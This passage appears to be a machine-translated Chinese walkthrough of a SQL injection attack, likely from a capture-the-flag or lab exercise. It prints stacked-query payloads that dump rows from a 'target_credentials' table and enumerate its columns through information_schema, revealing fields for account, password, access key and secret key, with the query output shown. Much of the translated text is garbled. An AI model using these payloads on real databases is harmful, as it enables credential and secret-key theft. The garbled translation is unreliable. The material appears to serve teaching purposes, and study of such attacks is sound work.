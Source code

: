 ****测试有效载荷(有效):****

```
'; select * from target_credentials limit 1 offset '1'; select * from target_credentials limit 1 offset '2'; select * from target_credentials limit 1 offset '3....etc. up to'; select * from target_credentials limit 1 offset '12
```

## **所有这些“最多 12 个”返回值&下一部分是我们的招牌动作。**

```
'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 1 offset '1**Query returns ⇣⇣⇣**account: None********************************************************************'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 1 offset '2**Query returns ⇣⇣⇣**password: None********************************************************************'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 1 offset '3**Query returns ⇣⇣⇣**access_key: None********************************************************************'; select column_name, null from information_schema.columns where table_name='target_credentials' limit 1 offset '4**Query returns ⇣⇣⇣**secret_key: None********************************************************************
```

> **于是我们得到，
> 
> 1 =账号
> 2 =密码
> 3 =访问 _ 密钥
> 4 =秘密 _ 密钥**

**例如:**

**；select column_name，null from information _ schema . columns where table _ name = ' target _ credentials ' limit 1 offset ' 4**

**![](img/0fe18c50777ec36033b2426b39cbe53c.png)**

**4 =秘密密钥**

**因此，我们知道在接下来的步骤中要提供什么。**

## **完成装订部移动**
